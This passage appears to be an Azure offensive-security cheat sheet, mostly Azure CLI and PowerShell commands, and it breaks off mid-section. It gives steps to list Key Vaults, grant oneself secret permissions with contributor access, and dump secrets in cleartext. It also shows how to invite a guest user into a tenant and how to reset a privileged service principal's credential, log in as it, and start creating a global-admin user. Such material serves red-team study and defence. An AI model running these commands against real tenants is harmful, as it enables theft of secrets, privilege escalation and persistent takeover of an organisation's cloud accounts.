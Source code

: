 ```bash
az login --allow-no-subscriptions
```

#### Dump Azure Key Vaults

List out any key vault resources the current account can view 

```bash
az keyvault list –query '[].name' --output tsv 
```

With contributor level access you can give yourself the right permissions to obtain secrets. 

```bash
az keyvault set-policy --name <KeyVaultname> --upn <YourContributorUsername> --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list 
```

Get URI for Key Vault 

```bash
az keyvault secret list --vault-name <KeyVaultName> --query '[].id' --output tsv 
```

Get cleartext secret from keyvault 

```bash
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```

#### Invite a Guest User to Tenant via AZ CLI

```powershell
$Body="{'invitedUserEmailAddress':'Email Address to Invite', 'inviteRedirectUrl': 'https://portal.azure.com'}”
az rest --method POST --uri https://graph.microsoft.com/v1.0/invitations --headers "Content-Type=application/json" --body $Body
```
Then use InvitationRedeemUrl to accept invite on guest user account

#### Service Principal Attack Path
Commands for resetting a service principal credential that has higher privileges and then using the service principal to create a new user in the tenant with global admin permissions.

Create a new credential for service principal

```bash
az ad sp credential reset --id <app_id>
az ad sp credential list --id <app_id>
```

Login as a service principal using the password and app ID from previous command

```bash
az login --service-principal -u "app id" -p "password" --tenant <tenant ID> --allow-no-subscriptions
```

Create a new user in the tenant

